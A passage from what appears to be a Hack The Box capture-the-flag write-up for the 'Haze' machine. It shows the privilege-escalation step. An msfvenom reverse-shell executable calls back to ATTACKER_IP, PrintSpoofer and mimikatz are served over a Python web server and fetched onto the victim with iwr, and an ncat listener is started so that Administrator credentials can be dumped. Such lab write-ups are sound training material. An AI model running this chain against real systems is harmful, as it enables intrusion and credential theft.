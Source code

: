 ## Administrator

### Exploitation

`PrintSpoofer` (https://github.com/itm4n/PrintSpoofer) will be used to escalate privileges and then run a reverse shell.
The high-level account can then run `mimikatz` to dump the Administrator credentials.

A reverse shell executable is generated using `msfvenom`. 
The `PrintSpoofer64.exe` executable was also downloaded from Releases on the repo page and copied to the `www` directory.
```
fcoomans@kali:~/htb/haze$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 EXITFUNC=thread -f exe -o www/revshell.exe
Warning: KRB5CCNAME environment variable not supported - unsetting
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: www/revshell.exe
```

`mimikatz.exe` (part of the `mimikatz` package on Kali) was also copied to the `www` directory.
```
fcoomans@kali:~/htb/haze$ locate mimikatz.exe
/usr/share/windows-resources/mimikatz/Win32/mimikatz.exe
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe

fcoomans@kali:~/htb/haze$ dpkg -S /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
mimikatz: /usr/share/windows-resources/mimikatz/x64/mimikatz.exe

fcoomans@kali:~/htb/haze$ cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe www
```

A Python web server was started to serve `mimikatz` and `PrintSpoofer`.
```
fcoomans@kali:~/htb/haze$ python -m http.server -d www
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

`revshell.exe` and `PrintSpoofer64.exe` were then downloaded to Alexander's temp folder.
```
PS C:\Windows\system32> cd $env:temp
cd $env:temp
PS C:\Users\alexander.green\AppData\Local\Temp> iwr http://ATTACKER_IP:8000/PrintSpoofer64.exe -outfile PrintSpoofer.exe
iwr http://ATTACKER_IP:8000/PrintSpoofer64.exe -outfile PrintSpoofer.exe
PS C:\Users\alexander.green\AppData\Local\Temp> iwr http://ATTACKER_IP:8000/revshell.exe -outfile revshell.exe
iwr http://ATTACKER_IP:8000/revshell.exe -outfile revshell.exe
```

A second `ncat` listener is started on Kali.  
This time it's listening on port 4445, as there is already another listener on port 4444 that accepts the Splunk App reverse shell.
```
fcoomans@kali:~/htb/cat$ rlwrap ncat -lvnp 4445
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:4445
Ncat: Listening on 0.0.0.0:4445
```
